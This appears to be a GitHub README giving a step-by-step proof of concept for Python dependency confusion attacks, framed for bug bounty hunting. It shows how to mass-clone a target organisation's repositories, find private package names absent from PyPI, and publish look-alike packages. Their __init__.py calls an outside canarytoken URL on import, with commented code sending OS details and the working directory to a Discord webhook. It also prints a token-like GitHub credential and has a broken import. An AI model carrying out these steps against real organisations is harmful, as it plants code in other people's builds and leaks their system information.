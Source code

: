 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
<h1 align="center">Python Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>


## How to Finds & How to Exploit

Finds requirement.txt then check the all dependency here is public or not

`https://pypi.org/project/pip/`

#### Download all target github repository
- Crate personal access tokens (classic):- https://github.com/settings/tokens
- Install ghorg - https://github.com/gabrie30/ghorg#installation
```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone google -t 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`
    
    
- After Download all repository finds vulnerable python package

```bash 
$ find . -type f -name requirements.txt | xargs -n1 -I{} cat {} | cut -d ">" -f 1 | cut -d " " -f 1 |  sort -u | cut -d "=" -f1 | xargs -n1 -I{} echo "https://pypi.org/project/{}/" | httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly So This the vulnerable to dependencies confusion.

- So now Publish this python packages publicly (https://pypi.org)

```bash
$ mkdir <package-name>
```
```bash
$ cd <package-name>
```
```bash
$ mkdir <package-name> 
```
```bash
$ cd <package-name>
```
```bash
$ touch __init__.py 
```

```bash
# python package dependency confiuse vulnerability POC 
# name: techghoshal
# e-mail: techghoshal@gmail.com
# Impact this vulnerability: Remote code execution(RCE)


import request
#from discord import SyncWebhook
#import os

## canarytokens_url OR burp collaborator URL
requests.get("canarytokens_url")

## Send target system info to your discord server 
#webhook = SyncWebhook.from_url("<discord_webhook_url>")

#osname =  os.uname()
#cwd = os.getcwd()

#webhook.send(f"OS-Info: {osname}")
#webhook.send(f"Current-DIR: {cwd}")
```

- Save this file

```bash
$ cd .. 
```
```bash
$ touch setup.py
```
- [+]note: The version of package and the version of the vulnerable package must be same
    
```bash 
from setuptools import setup, find_packages
import codecs
import os

here = os.path.abspath(os.path.dirname(__file__))

with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
    long_description = "\n" + fh.read()

VERSION = '0.0.1'
DESCRIPTION = 'Dependency confiuse Attack'
LONG_DESCRIPTION = 'Python package dependency confiuse vulnerability POC. Impact this vulnerability is Remote code execution (RCE)'

# Setting up
setup(
    name="Python_dependency_confusion_attacks",
    version=VERSION,
    author="techghoshal",
    author_email="techghoshal@gmail.com",
    description=DESCRIPTION,
    long_description_content_type="text/markdown",
    long_description=long_description,
    packages=find_packages(),
    install_requires=['requests', 'discord'],
    keywords=[]
   )
```
- Save this file

```bash
$ touch README.md
```
```bash
<h1 align="center">This Python package vulnerable to dependency confusion vulnerability</h1>
```
- Save this file

- Build package
```bash
$ python3 setup.py sdist bdist_wheel
```

- Upload file publicly(https://pypi.org)

- Create Accont on pypi.org

```bash
$ pip3 install twine
```
```bash
$ twine upload dist/*
```

- Enter your username: <username>
- Enter your password: <password>

---
Upload IS DONE 😎 
<br>
🎉 Now Bounty Time 💰💰


